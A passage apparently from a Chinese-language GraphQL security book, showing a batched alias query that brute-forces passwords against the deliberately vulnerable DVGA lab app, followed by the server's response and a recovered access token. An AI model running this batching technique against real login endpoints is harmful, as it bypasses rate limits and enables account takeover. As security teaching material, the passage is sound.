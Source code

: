 ```
    alias5: login(username: "admin", password: "password123") {
      accessToken
    }
    alias6: login(username: "operator", password: "operator") {
      accessToken
    }
    alias7: login(username: "operator", password: "password") {
      accessToken
    }
    alias8: login(username: "operator", password: "pass") {
      accessToken
    }
 alias9: login(username: "operator", password: "pass123"){
      accessToken
    }
    alias10: login(username: "operator", password: "password123"){
      accessToken
    }
}
```

列表 7-5：使用批量查询进行密码暴力破解的示例

对 DVGA 执行这个密码暴力破解查询将产生如下的大量响应。如你所见，大部分数据由`身份验证失败`错误组成。然而，对于`alias10`，我们收到了有效的`accessToken`，这意味着我们成功破解了*operator*的密码，该密码为*password123*。

```
{
  "errors": [
    {
      "message": "Authentication Failure",
      "locations": [
        {
          "line": 2,
          "column": 5
        }
      ],
      "path": [
        "alias1"
      ]
    },
`--snip--`
    {
      "message": "Authentication Failure",
      "locations": [
        {
          "line": 26,
          "column": 5
        }
      ],
      "path": [
        "alias9"
      ]
    }
  ],
  "data": {
    "alias1": null,
`--snip--`
    "alias9": null,
    "alias10": {
      "accessToken": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzI
iwiaWF0IjoxNjU2OTcxMDc5LCJuYmYiOjE2NTY5NzEwNzksImp0aSI6IjQ3NmEwYTYxLTk0OGUtNDZmO
S05ZDBmLTFlMzk3MDAxMTNjYiIsImlkZW50aXR5Ijoib3BlcmF0b3IiLCJleHAiOjE2NTY5NzgyNzl9.NJ
ZOugXBwG-0oEcT2UtH-xeBFwqxS0_5Ag1Y7-L3EgI"
```